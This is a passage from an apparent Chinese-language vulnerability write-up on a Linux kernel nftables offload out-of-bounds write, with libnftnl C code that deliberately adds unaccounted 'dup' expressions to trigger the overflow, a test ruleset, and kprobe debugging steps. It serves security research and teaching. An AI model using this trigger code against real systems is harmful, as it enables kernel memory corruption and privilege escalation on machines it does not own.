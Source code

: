 ```c
	struct flow_action_cookie *cookie; /* user defined action cookie */
};
```

**漏洞触发**：由于不知道如何与 `nftables` 交互，作者参考了 [One mailing list post](https://www.spinics.net/lists/netfilter/msg59251.html) —— nftables table/chain 定义及安装示例，如何设置 `offload` flag 才能到达漏洞点（关键是这个 [check](https://elixir.bootlin.com/linux/v5.16.11/source/net/netfilter/nf_tables_api.c#L3423) 语句）。可以参考 <https://www.openwall.com/lists/oss-security/2022/02/21/2>，通过C语言的libmnl和libnftnl 库来使用 netfilter更方便，只要添加的rule不包含`NFT_OFFLOAD_F_ACTION` flag标记，就能触发OOB。只有`nftnl_expr_alloc("immediate");`添加的rule才有`NFT_OFFLOAD_F_ACTION` 标记：

```c
for(int i = 0; i < legit_writes; i++) {// 如下添加 expr 不会越界: 每条rule都包含一条 `nft_immediate` expression
    exprs[exprid] = nftnl_expr_alloc("immediate");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_IMM_DREG, NFT_REG_1);
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_IMM_DATA, 1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
    exprs[exprid] = nftnl_expr_alloc("dup");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_DUP_SREG_DEV, NFT_REG_1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
}
// 如下添加 expr 会越界
for (int unaccounted_dup = 0; unaccounted_dup < oob_writes; unaccounted_dup++) {
    exprs[exprid] = nftnl_expr_alloc("dup");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_DUP_SREG_DEV, NFT_REG_1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
}
```

### 1-3. 漏洞测试

**漏洞触发测试**：

```c
table netdev filter_test {
  chain ingress {
    type filter hook ingress device eth0 priority 0; flags offload;
    ip daddr 192.168.0.10 tcp dport 22 drop
  }
}
```

有了这个例子，就可以测试是否能触发漏洞了。首先，对 [flow_rule_alloc()](https://elixir.bootlin.com/linux/v5.16.11/source/net/core/flow_offload.c#L9) （[nft_flow_rule_alloc()](https://elixir.bootlin.com/linux/v5.16.11/source/net/netfilter/nf_tables_offload.c#L18) -> [flow_rule_alloc()](https://elixir.bootlin.com/linux/v5.16.11/source/net/core/flow_offload.c#L9) 负责创建 `action.entries` 数组）设置一个 kprobe，来获取其参数 `num_actions` 的值 —— `sudo kprobe-perf -F 'p:flow_rule_alloc num_actions=%di:u32'`，但是失败了，因为Ubuntu上是延迟加载 `nftables`，可以先执行 `nft -a mailing_list.nft` 来强制内核加载 `nftables`，这样才能在该函数上设置kprobe。

实际运行 `nft -a mailing_list.nft` 后居然触发了 kprobe，由于是在VM上测试，这说明没有网络设备和hardware offload 支持，也能触发！
